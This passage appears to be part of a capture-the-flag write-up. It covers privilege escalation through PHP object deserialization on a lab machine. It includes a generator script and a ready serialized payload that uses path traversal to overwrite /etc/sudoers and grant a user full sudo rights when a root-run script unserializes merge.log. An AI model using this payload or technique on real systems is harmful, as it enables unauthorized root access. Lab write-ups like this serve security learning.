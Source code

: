             public function __wakeup() # Here is a PHP magic method.
            {
                    file_put_contents(__DIR__."/".$this->logFile,$this->logData); # As we see it puts contents in a file in the same directory only!
            }                                                                    
    }                                                                            
    $buff = new playBuff();                                                      
    $serialbuff = serialize($buff);
    $data = file_get_contents("/var/lib/playbuff/merge.log"); # That is the file the code reads Seriliezed data from.             
    if(unserialize($data)) # Here is Where our payload from merge.log gets unserliezed and executed. It is importent to be after the class and object has been declerd.
    ...(Snip)...

First things first, The file we need  is owned by telegen.

    -rw-------  1 telegen telegen   13 Jan  3 19:29 merge.log

su to telegen and execute bash instead of the restricted shell he has

    www-data@player:/var/lib/playbuff$ su telegen -s bash
    Password:
    telegen@player:/var/lib/playbuff$

now we can put our payload into merge.log and wait for it get unserialize and executed.

To exploit this what we can do as root is to write data into a file. there is two ways to do this

### Writing in suddoers

To Generate the payload i used a snipet from buff.php code to print the serialized data for me

    <?php
    class playBuff                                                                                                                                            
    {              
            public $logFile="../../../../../../../../etc/sudoers"; # Path to file
            public $logData="telegen ALL=(ALL)ALL"; # Data to be written into file

            public function __wakeup()
            {
                    file_put_contents(__DIR__."/".$this->logFile,$this->logData); # As we see it puts contents in a file in the same directory only!
            }                                                                    
    }                                                                            
    $buff = new playBuff();                                                      
    $serialbuff = serialize($buff);
    print $serialbuff;
    ?>

This is the generated payload

    O:8:"playBuff":2:{s:7:"logFile";s:35:"../../../../../../../../etc/sudoers";s:7:"logData";s:20:"telegen ALL=(ALL)ALL";}

Putting this payload into merg.log and waiting for root to execute the script.

And now we have sudo ALL
